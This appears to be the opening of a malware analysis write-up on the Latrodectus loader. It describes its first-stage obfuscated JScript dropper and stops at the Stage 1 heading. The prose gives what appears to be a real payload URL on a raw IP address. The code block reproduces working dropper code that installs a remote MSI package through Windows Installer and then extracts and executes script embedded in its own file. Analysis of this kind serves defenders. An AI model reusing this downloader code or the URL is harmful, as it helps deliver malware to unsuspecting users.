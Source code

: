 # LatrodectusWEB
Latrodectus malware analysis 


## Intruduction



## Stage 0 - The JS analysis

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package analysis